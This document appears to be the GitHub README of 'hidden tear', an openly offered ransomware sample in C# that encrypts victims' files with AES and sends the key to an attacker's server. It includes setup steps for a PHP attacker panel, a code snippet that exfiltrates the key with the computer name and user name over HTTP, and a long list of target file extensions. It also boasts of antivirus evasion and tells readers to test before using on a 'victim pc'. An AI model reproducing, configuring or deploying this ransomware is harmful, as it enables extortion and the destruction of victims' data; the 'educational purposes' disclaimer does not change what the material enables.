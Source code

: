          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (12 KB)
* Doesn't detected to antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt - Do not scan with virus total or similar
* This project was updated by Virgula0 and coded by Uktu Sen 
- New features:
* A new advanced server script was added that saves data into database
* All information are sent if there is an internet connection and the ransomware waiting for it if there isn't.
* You can see all target information with Server Attacker panel
* Script can also send you an email with datas
* It can encrypt also exe files and it doesn't get collisions with other processes now
* After the double click on it, virus disappears and it can ecnrypt with no collision due to this Move.Directory function
* It encrypt now a lot of files with a lot of extensions more and changing desktop icon with information about hacking attack
* Hidden Tear decryptor now advise if files have been decrypted or not.
* Hidden Tear Decryptor now is able to decrypt the same directories of hidden-tear ransomware.
* Hidden tear change default windows icon of desktop if decrypted is succesfully finished.
* A bug that could delete a part of passcode while sending has been removed.

***************************************************************************************************************************
* If you want , you can send some BTC for this re-work and support me, thank you!
* Address: 18pm5hUEXmkXFVmbFsyHPMMAsnCkEyQJmW	| Or you can scan qr code named donation_btc_address.png in the main path *
* Or paypal: https://paypal.me/Virgula																					  *
* Thank You!																											  *
***************************************************************************************************************************

**Demonstration Video**

https://www.youtube.com/watch?v=0IvD9Sky9as

Warning: in that video wasn't shown the attacker panel but only the key saved into the file to make the video lasts less.

**Usage**

* You need to have a web server which supports php scripting language. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/Server/write.php";`

  * Default Username and password for webpanel (in check.php file) are -> Username: test | Password: test
  * Import sql table in your database importing the file: import.sql
  * Set you database credetials in the file: connect_db.php
  * If you want also write a file for every virus execution go to file: write.php and uncomment from the line 37 to 43. For privacy of information this is not recommended
  * Set your email to get information also by email (don't write your PERSONAL email) in line  47 of file write.php

* The script should writes the GET parameter into a database and if you want into a text file. Sending process running in `SendPassword()` function

  ```
        string info = "?computer_name=" + computerName + "&userName=" + userName + "&password=" + password + "&allow=ransom";
        var fullUrl = targetURL + info;
        var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:
* Warning: Make sure that script works before to try on a victim pc running it on some virtual machines for example.

```
var validExtensions = new[]{".txt", ".jar", ".exe", ".dat", ".contact" , ".settings", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".py", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".htm", ".xml", ".psd" , ".pdf" , ".dll" , ".c" , ".cs", ".mp3" , ".mp4", ".f3d" , ".dwg" , ".cpp" , ".zip" , ".rar" , ".mov" , ".rtf" , ".bmp" , ".mkv" , ".avi" , ".apk" , ".lnk" , ".iso", ".7-zip", ".ace", ".arj", ".bz2", ".cab", ".gzip", ".lzh", ".tar", ".uue", ".xz", ".z", ".001", ".mpeg", ".mp3", ".mpg", ".core", ".crproj" , ".pdb", ".ico" , ".pas" , ".db" ,  ".torrent" };
```

* PLEASE DON'T ADD .INI EXTENSION BECAUSE THE CONFILCT WITH THIS FILES WILL CRASH YOUR SCRIPT
* In this new re-upload there is a function that wait for internet connection before to send password to database:

	    ```
        //check for internet connection
        public static bool CheckForInternetConnection()
        {
            try
            {
                using (var client = new WebClient())
                {
                    using (var stream = client.OpenRead("https://www.google.com"))
                    {
                        return true;
                    }
                }
            }
            catch
            {
                return false;
            }
        }
		```

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

